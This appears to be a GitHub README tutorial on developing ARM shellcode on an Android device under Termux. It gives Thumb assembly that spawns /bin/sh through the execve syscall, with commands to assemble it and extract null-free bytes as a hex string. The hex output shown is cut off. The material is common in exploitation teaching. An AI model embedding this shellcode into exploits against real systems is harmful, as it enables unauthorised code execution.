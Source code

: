 # Shellcode développement 
  shellcode injection 
# Environnement
  ` ~ $> uname -a
Linux 2023 armv8l Android `

  `~ $> Device model:
  RMX3231`

  `~ $> Packages CPU architecture:
  arm `

  `termux-tools/stable 1.39.4 `

# requirements
  ` ~ $> nasm --v
NASM version 2.16.01 compiled on Dec 22 2022`

  ` ~ $> nim --v
Nim Compiler Version 2.0.0 [Android: arm]
Compiled at 2023-08-01
Copyright (c) 2006-2023 by Andreas Rumpf`

  `~ $> ld -v
GNU ld (GNU Binutils) 2.41`

  `~ $> as -v
GNU assembler version 2.41 (arm-linux-androideabi) using BFD version (GNU Binutils) 2.41`

  `~ $> clang/stable 17.0.4 arm `

  `~ $> gcc -v
clang version 16.0.6
Target: armv7a-unknown-linux-android24
Thread model: posix `

# file asm
create a file [shell.s](https://github.com/Dkwebpoint/shellcode/blob/d8a27ade633d2060e7ea94e51a31313262a34ec3/Shell.s)

```
GNU nano 7.2             shell.s
.global _start
.text

_start:
       .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        strb r2, [r0, #7]
        mov r7, #11
        svc #1

.ascii "/bin/shX"
```

# Compile and execute:

```
~ $> as shell.s -o shell.o
~ $> ld --help
--- snip --
-N, --omagic        Do not page align data, do not make text readonly.
~ $> ld -N shell.o -o shell
```
![ Use ld -N ](https://github.com/Dkwebpoint/shellcode/blob/be42d7cafd5f195efc91ec5d1cd4022ccbb6128e/IMG_20231109_055637.jpg)
# Extract the shellcode
```
~ $> objcopy -O binary shell shell.bin
~ $> hexdump -v -e '"\\""x" 1/1 "%02x" ""' shell.bin               $>\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x 
```
![extrct the shellcode](https://github.com/Dkwebpoint/shellcode/blob/702defc0e20912539f6ecb994810f9c96dc78e65/IMG_20231109_143924.jpg)
